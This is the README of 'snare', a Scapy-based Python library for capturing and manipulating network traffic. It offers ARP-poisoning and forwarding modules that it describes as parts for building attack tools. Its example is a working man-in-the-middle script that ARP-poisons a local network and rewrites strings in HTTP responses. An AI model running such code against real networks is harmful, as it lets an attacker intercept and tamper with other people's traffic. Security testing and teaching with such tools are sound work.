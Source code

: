 snare
=====
**Capture and manipulate traffic off the network**

Snare provides a Sniffer class and a few "modules" which can be assembled to form attack tools.
These classes are based on Scapy and provide a convenient way to interact with and compose tools from it's functionality.

The advanced functions such as ARP poisoning, packet forwarding, and analysis are decomposed into modules to allow
for greater flexibility and flexibility. Look at the constructed strategies for examples of how to compose the modules.

Docs are hosted on [Read the Docs](https://network-snare.readthedocs.io/en/latest/)

Example
-------

Suppose you hate the string "search" and you want to MitM your local network, replacing all instances of the word in HTTP responses with the word "replace". Well the following script will do that for you!

.. code-block:: python

   import scapy.all as scapy
   import snare

   # Hello
   @snare.tcpfilter
   def inject(pkt):
     if all(layer in pkt for layer in (scapy.IP, scapy.TCP)):
         if scapy.Raw in pkt and pkt[scapy.TCP].sport == 80:

             s = b"search"
             r = b"replacement"

             raw = pkt[scapy.Raw]
             if s in raw.load:
                 raw.load = raw.load.replace(s, r)
                 print(pkt.show())
     return pkt

   sniffer = snare.Sniffer(
       iface="eth0",
       modules=[snare.ArpMitmModule(filter=inject)]
   )
   sniffer.start()
   input("Starting injection attack. Press enter to quit.")
   sniffer.stop()

Development
-----------

Testing
~~~~~~~

Tests are written in `pytest` and can be run with the `pytest` command.

.. note::
   Testing is pretty spare at the momment. In order to really test things, a testing framework that
   can feed in pcap files and evaluate the repsonse is required.

Documentation
~~~~~~~~~~~~~

Documentation can be built with Sphinx from the docs folder by running `make html`, or another target.
